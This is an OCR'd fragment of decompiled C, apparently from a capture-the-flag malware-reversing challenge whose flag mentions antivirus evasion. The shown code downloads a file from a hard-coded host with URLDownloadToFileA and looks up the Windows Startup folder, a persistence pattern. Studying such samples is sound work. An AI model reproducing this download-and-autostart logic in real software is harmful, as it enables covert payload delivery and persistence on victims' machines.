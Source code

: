 ```c
  {
    if ( !*v19 )
      break;
    ++v19;
    --v18;
  }
  while ( v18 );
  v20 = 260 - v18;
  if ( v18 )
  {
    v21 = &v41[v20];
    v22 = 260 - v20;
    if ( v20 != 260 )
    {
      v23 = 2147483646LL;
      v24 = (char *)("\\2.txt" - v21);
      do
      {
        if ( !v23 )
          break;
        v25 = v21[(_QWORD)v24];
        if ( !v25 )
          break;
        *v21 = v25;
        --v23;
        ++v21;
        --v22;
      }
      while ( v22 );
    }
    v26 = v21 - 1;
    if ( v22 )
      v26 = v21;
    *v26 = 0;
  }
  URLDownloadToFileA(0LL, "https://10.10.70.114/2.txt", v41, 0, 0LL);
  URLDownloadToFileA(0LL, "https://10.10.70.114/L3AK{AV_evasion_is_easy", v41, 0, 0LL);
  result = SHGetFolderPathA(0LL, 7, 0LL, 0, v43);
  if ( result >= 0 )
  {
    v28 = 260LL;
    v29 = v40;
    do
    {
      if ( v28 == -2147483386 )
        break;
      v30 = v29[v43 - v40];
      if ( !v30 )
        break;
      *v29++ = v30;
      --v28;
    }
    while ( v28 );
    v31 = v29 - 1;
    if ( v28 )
      v31 = v29;
    v32 = 260LL;
    *v31 = 0;
    v33 = v40;
    do
    {
      if ( !*v33 )
        break;
```